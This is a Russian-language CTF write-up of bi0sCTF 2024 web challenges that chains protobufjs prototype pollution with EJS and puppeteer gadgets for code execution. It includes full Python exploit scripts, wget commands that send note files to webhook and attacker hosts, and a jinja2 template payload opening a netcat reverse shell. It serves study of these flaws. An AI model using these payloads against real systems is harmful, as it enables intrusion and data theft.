



всем превед. Недавно прошел (4 месяца назад ахвыхахаы) [bi0s ctf](https://ctftime.org/event/2117), на удивление там были весьма занимательные задания в категории web, разбором которых я просто обязан с вами поделиться. Бтв самостоятельно развернуть таски можно [атсюда](https://github.com/teambi0s/bi0sCTF/)

# Required Notes
Whitebox таск с максимальным количеством солвов, функционал создания записок. Спойлер: имеет несколько интересных решений.
## tl;dr
Server Side Prototype Pollution в protobuf js библиотеке [CVE-2023-36665](https://devm.io/security/protobufjs-vulnerability), приводящий к RCE, используя [гаджеты](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce) в ejs шаблонизаторе. Возможность подобрать сид для math.random и предугадать айди записки с флагом, а также эксплуатация SSPP без RCE. 

## А теперь по порядочку

первоначально, по заветам лучших метод анализа защищенности, проверяем наличие xss базовым нагрузом -> получаем закономерный профит.  Казалось бы, теперь кидаем линк на нашу страничку с нагрузом боту и читаем флаг, однако все не так просто. Бот ходит только на Healthcheck, соответственно нам надо как-то подсунуть боту собственную записку вместо имеющегося хелсчека. 

Не найдя больше ничего, кроме xss - xsleaks через `/search` (который нужен для интендед способа вытащить посимвольно флаг) - приходится думать шире. Глаза втыкаются в файл settings.proto (немного [базы](https://www.youtube.com/watch?v=_EqVG-El5z0) про работу протобафа), чекаем версию protobufjs пакета - о чудо, она имеет [CVE-2023-36665](https://devm.io/security/protobufjs-vulnerability). Загрязнение прототипа на стороне сервера возможно при обработке протобафа через функции: `parse`,`setParsedOption`,`util.setProperty`,`load/loadSyncfunctions`. В данном кейсе используется `parse`
```js
    schema = fs.readFileSync('./settings.proto', 'utf-8');
    root = protobuf.parse(schema).root;
```
А еще мы можем записывать что угодно в файл settings.proto через ручку `/customise` - соответственно есть все возможности проэксплуатировать Server Side Prototype Pollution. Чуток базы -> [SSPP](https://habr.com/ru/companies/huawei/articles/547178/).

Для эксплуатации загрязнения прототипа через протобаф есть PoC:
```js
const protobuf = require("protobufjs");
protobuf.parse('option(a).constructor.prototype.verified = true;');
console.log({}.verified);
// returns true
``` 

Для наглядности в локально поднятом инстансе я добавляю ручку, выводящую мне значение {}.verified.
```js
app.get('/verif', (req, res) => {
  return res.json({Message: {}.verified})
});
```
Теперь попытка создать кастомный атрибут verified: 

Сперва выполняем запись полезной нагрузки в settings.proto файл, далее для отрабатывания создаем записку, чтобы поместить пейлоад в функцию `parse`, которая небезопасно обработает вводные и я успешно создал новый атрибут verified со значением `true` для всех объектов.

С имеющимся SSPP далее можно решить разными способами.
## RCE через гаджет ejs
EJS шаблонизатор, как сказано в [статье](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce), развязывает нам руки решить таск unintended способом - получив Remote Code Execution. Если кратко по гаджетам, то необходимо поставить атрибут `client` равным единице и  `escapeFunction` в значение `JSON.stringify; process.mainModule.require('child_process').exec('wget http://collaborator.qwe')`, а также важно после записи этих атрибутов отрендерить страничку на фронте, например сделать get запрос на `/create`, чтобы стриггерить ejs и он исполнил то, что мы ему приказали. 

Итоговый сплойт для этого способа:
```py
import requests

BASE_URL = "http://localhost:3000"

def pp(key: str, value: str):
    author = "option(a).constructor.prototype." + key + "=" + value + ""
    res = requests.post(BASE_URL +
        "/customise",
        json={
            "data": [
                {},
                {
                    "author": author,
                },
            ]
        },
    )
    assert res.json()["Message"] == "Settings changed", res.text
    res = requests.post(BASE_URL + "/create", json={})
    assert res.status_code == 500

pp("client", "1")
pp(
    "escapeFunction",
    "\"JSON.stringify; process.mainModule.require('child_process').exec('wget https://enq0o6tnl7p8d.x.pipedream.net/ --post-data=\\\"$(cat notes/*)\\\"')\"",
)

requests.get(BASE_URL +"/create")
```

## Загрязнение атрибута _peername

Еще один солюшн предполагает обход защиты на ручку `/search`, которая позволит посимвольно извлечь айди записки с флагом.
Защита реализована так, чтобы разрешать данный поиск только если запрос сделан от локалхоста.

Необходимо поискать гаджеты в атрибутах `req.connection`. Для этого выведем объект `req.connection` в методе проверки адреса:
```js
const restrictToLocalhost = (req, res, next) => {
  const remoteAddress = req.connection.remoteAddress;

  console.log(req.connection);
  
  if (remoteAddress === '::1' || remoteAddress === '127.0.0.1' || remoteAddress === '::ffff:127.0.0.1') {
    next();
  } else {
    res.status(403).json({ Message: 'Access denied' });
  }
};
```

Из всех атрибутов бросается в глаза `_peername`:
```js
_peername: { address: '::ffff:192.168.144.1', family: 'IPv6', port: 38258 }
```
патаму чта он удивительно схож с `remoteAddress`. Далее в интернетах серчим инфу по странному атрибуту, находим [вопрос](https://stackoverflow.com/questions/29462807/node-js-issues-with-request-client-peername-address-when-getting-client-ip) на стаковерфлоу, из которого понимаем, что `_peername` объявляется только после объявления `remoteAddress`, следовательно можно попробовать переписать `_peername` со значением локалхоста, таким образом `remoteAddress` также примет значение локалхоста, тк под капотом видать один атрибут уравнивается к другому.

Соответсвтенно делаем нагруз вида `option(a).constructor.prototype._peername.address=\"127.0.0.1\"` и получаем доступ к `/search`. Далее дело за малым: просто вытаскиваем посимвольно noteId флага.

готовый сплойт лежит [тут](https://siunam321.github.io/ctf/bi0sCTF-2024/Web-Exploitation/required-notes/)


## Эксплуатация math.random
Для генерации ID записки исполюзается генератор псевдослучайных чисел, поэтому есть вектор предугадать noteId флага.
Мне было немного в падлу разбираться, поэтому просто держите [сурс](https://jsur.in/posts/2020-11-30-hitcon-ctf-2020-100-pins-writeup)

ДОПИСАТЬ

## Эксплуатация гаджета required
Изначально этот способ подразумевался интендед способом, однако решить таск можно было намного проще, так что автор решил добавить некоторую санитизацию, а также ограничить длину записываемой полезной нагрузки в протофайл, поэтому интендед способ будет описан в модификации текущего таска.


# RequiredNotes Revenge
Продолжение предыдущего таска, имел всего несколько солюшенов.

## tl;dr
Все то же загрязнение прототипа, однако интендед чейн предполагает следующие шаги:
 - делаем заметку с нагрузом эксплутации [xs leaks](https://cheatsheetseries.owasp.org/cheatsheets/XS_Leaks_Cheat_Sheet.html)
 - загрязняем имя экспорта в required, чтобы при открытии healthcheck открывалась заметка с нагрузом, параллельно играясь с кэшом

## Intended Solution
Достаточно поискать гаджеты для require, [одна из статей](https://ctf.zeyu2001.com/2022/balsnctf-2022/2linenodejs).

Если чуть углубиться, атрибут `data` находится [тут](https://github.com/nodejs/node/blob/v20.2.0/lib/internal/modules/cjs/loader.js#L529)
Гаджет позволяет нам перезаписать `data` атрибут, содержащий внутри `name`,`exports` для любого файла, который подгружается.

Использование сего гаджета включает следующие действия:
  - для корректной эксплуатации нужно отравить атрибут `path=./`
  - создать note с полезной нагрузкой для эксплуатации xsleaks (например, используя тег option)
  - объявляется `data={}`, далее в нее кладется `name=./notes/Healthcheck` и `export=./notes/<noteid>.json` (потравив прототип, следующий элемент в кеше будет указывать для хелсчека расположение записки с полезной нагрузкой)
  - шлем get запрос на `/view/Healthcheck`, чтобы в relativeResolveCache  положилось содержание файла записки с нагрузом, и старый кеш очистился
  - объявляется `data={}`, далее в нее кладется `name=./notes/zhopi` и `export=./notes/<noteid>.json`. Также шлем get на `/view/zhopi`, добавляя в кеш require noteid с полезным нагрузом. Таким образом healthcheck становится доступным для чтения.
  - теперь можно посылать бота на `/view/Healthcheck`

[Полный авторский сплойт](https://github.com/teambi0s/bi0sCTF/blob/main/2024/Web/requirednotesrevenge/admin/exploit/exploit.py)

## Еще один unintended RCE
У автора не получилось исключить возможность добиться удаленного выполнения кода, потому что умельцами был найден еще один гаджет в puppeteer (модуль браузером для эмуляции пользователя, чтобы протестировать client-side уязвимости).
Итого найдены фрагменты:
 > [1](https://github.com/puppeteer/puppeteer/blob/puppeteer-v21.5.2/packages/browsers/src/launch.ts#L199-L207)
 ```ts
     this.#browserProcess = childProcess.spawn(
      this.#executablePath,
      this.#args,
      {
        detached: opts.detached,
        env,
        stdio,
      }
    );
 ```
 > [2](https://github.com/puppeteer/puppeteer/blob/puppeteer-v21.5.2/packages/puppeteer-core/src/node/ChromeLauncher.ts#L76-L83)
 ```ts
     const {
      ignoreDefaultArgs = false,
      args = [],
      pipe = false,
      debuggingPort,
      channel,
      executablePath,
    } = options;
 ```
 Итого перезаписываем `shell`, атрибут `childProcess` на sh,  `executablePath` выставляем диреукторию с записками, далее в `debuggingPort` пишем команды для исполнения, однако мы ограничены по длине входных данных, поэтому хостим у себя на белом ip нагруз `wget https://webhook.site/xxxxx --post-data="$(cat *.json)`, подтягиваем и выполняем

 итоговый сплойт
 ```py
import httpx

BASE_URL = "http://localhost:3000"

ATTACKER_HOST = "evil.example.com"

client = httpx.Client(base_url=BASE_URL)

def pp(key: str, value: str):
    author = "option(a).constructor.prototype." + key + "=" + value + ""
    assert len(author) <= 86, [author, len(author)]
    res = client.post(
        "/customise",
        json={
            "data": [
                {},
                {
                    "author": author,
                },
            ]
        },
    )
    assert res.json()["Message"] == "Settings changed", res.text
    res = client.post("/create", json={})
    assert res.status_code == 500

pp("shell", '"sh"')
pp("userDataDir", '"/app/notes"')
pp("executablePath", '"echo"')
pp("ignoreDefaultArgs", "true")

pp("debuggingPort", '";cd\\tnotes;a="')
pp("debuggingPort", f'";wget\\t{ATTACKER_HOST}/x;a="')
pp("debuggingPort", '";sh\\tx;"')

res = client.get("/healthcheck")
assert res.json()["Message"] == "healthcheck failed"
 ```

передохните.


# END
Сел я за эту статью спустя несколько месяцев и понял, что мне в падлу дальше расписывать, так что просто скину на оставшиеся таски авторские райтапы без адаптации.

  - [Image Gallery 1/2](https://blog.bi0s.in/2024/03/06/Web/ImageGallery1-bi0sCTF2024/)
  - [കുട്ടി Notes](https://blog.bi0s.in/2024/02/29/Web/KuttyNotes-bi0sCTF2024/)
  - [Variety Notes](https://blog.bi0s.in/2024/02/26/Web/VarietyNotes-bi0sCTF2024/)
  - [bad notes](https://github.com/teambi0s/bi0sCTF/tree/main/2024/Web/bad_notes)

Дополнительно unintended на `bad notes`:
```py
Arbitrary file write using "/tmp/test.txt" as filename because the code is using os.path.join (ex: os.path.join("/app/","/tmp/test.txt") => /tmp/test.txt)

Then, you don't have to reach the login page as a GET request, so that flask will not cache the /app/templates/login.html page. (use only POST request in burp repeater for example)

Overwrite /app/templates/login.html with a classic jinja2 rce payload :

{{ self.init.globals.builtins.import('os').popen('nc IP PORT -e /bin/bash').read() }}

Reach the /login page, flask will load the /app/templates/login.html but we have poison it before flask loads it :), get a shell and sudo /bin/cat /flag
```

Всем спасибо всем пака😘